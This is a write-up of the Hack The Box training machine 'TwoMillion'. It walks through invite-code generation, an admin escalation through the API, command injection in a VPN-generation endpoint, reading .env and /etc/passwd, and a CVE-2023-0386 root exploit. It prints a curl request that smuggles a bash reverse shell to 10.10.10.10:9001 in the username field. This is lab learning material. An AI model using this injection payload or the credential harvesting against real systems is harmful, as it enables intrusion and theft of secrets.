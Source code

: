  </br>[![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=35&pause=1000&color=6A0DAD&width=435&lines=TwoMillion)](https://git.io/typing-svg)
</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic1.png" alt="Alt Text">
</a>
</br>
</br>
</br>
## Nmap-scan
</br>

First, let's initiate a quick scan utilizing nmap.


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic2.png" alt="Alt Text">
</a>
</br>

It appears that we need to include "2million.htb" in our hosts file

```bash
echo "10.10.11.221 2million.htb" >> /etc/hosts
```
</br>

## Trying to have access

Upon visiting the website, I discovered it's an outdated version of the HackTheBox platform. To gain access, I attempted to log in using the default credentials, but unfortunately, I received an error message indicating that the user not found.
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic3.png" alt="Alt Text">
</a>
</br>
While exploring the website, I discovered that I can join the platform by obtaining an invite code.
</br>

`http://2million.htb/invite`

</br>
I came across a JavaScript code that contains some intriguing elements. 
</br>

`/js/inviteapi.min.js`

<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic4.png" alt="Alt Text">
</a>

</br>
I am interested in generating my own invite code as well.
</br>
I will examine the endpoint "/api/v1/invite/how/to/generate" to gather more information.
</br>


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic6.png" alt="Alt Text">
</a>
</br>

After decoding the ROT13 cipher, we discovered the method to generate our own invite code.


</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic7.png" alt="Alt Text">
</a>

Let's proceed with generating our invite code using the discovered method

</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic5.png" alt="Alt Text">
</a>
</br>
Since the invite is encoded using base64, it should be easy to obtain one.

</br>

```bash
curl -s -X POST http://2million.htb/api/v1/invite/generate | jq .data.code -r |base64 -d
```

## Gain administrative

</br>

Upon logging in with the provided invite code, I have started exploring additional API resources to discover more useful functionalities.


```bash
curl -s http://2million.htb/api/v1 -H "Cookie: PHPSESSID=b0akpjn8hlj8h2085dv674tgkv" |jq .
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}

```

</br>

I will attempt to update my settings

</br>

```json
"PUT": {
         "/api/v1/admin/settings/update": "Update user settings"
      }
```

</br>

<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic8.png" alt="Alt Text">
</a>


Great! Now that we have successfully obtained administrative privileges, we can proceed to gain RCE.

## Having a RCE

Now that we have administrative access, we can examine :

```json
 "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
```

It seems that after spending some time searching, I have discovered a Remote Code Execution (RCE) vulnerability in the username parameter. This is a significant finding as it allows you to inject commands and potentially gain unauthorized access.

`/api/v1/admin/vpn/generate`


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic9.png" alt="Alt Text">
</a>

Now that we have identified the Remote Code Execution (RCE) vulnerability, we can exploit it 

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=b99sapscujo3dg9l7c454tt4fm" -H "Content-Type: application/json" -d '{"username":"$(bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1')"}'
```

Congratulations! HAHA

## Privilege 

After logging in, I discovered an interesting file named ".env".

 ```bash
 
 ls -la
total 56
drwxr-xr-x 10 root root 4096 Jun  8 21:40 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Jun  8 21:40 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
```
```bash
cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=S************3
```

Upon inspecting the ".env" file, I found that it contains admin credentials

```bash

cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash
```


`admin is an user`

I will attempt to switch to the "admin" user by using the provided pass

we have gained access 'YoHOO'

While conducting further research, you came across some intriguing findings indicating the presence of a potential CVE

```bash
admin@2million:/var/www/html$ find / -perm -u=s -type f 2>/dev/null |grep "tmp"
/tmp/cve/ovlcap/upper/file
/tmp/.troll80lvl/CVE-2023-0386/ovlcap/upper/file
/tmp/CVE-2023-0386-main/ovlcap/lower/file
/tmp/CVE-2023-0386-main/ovlcap/upper/file
```


CVE-2023-0386  POC: 
[Link to CVE-2023-0386 Repository](https://github.com/xkaneiki/CVE-2023-0386)

By following the POC, I have acquired the ability to escalate the privileges to the root user level.

```bash
root@2million:/var/www/html# whoami
root
root@2million:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```
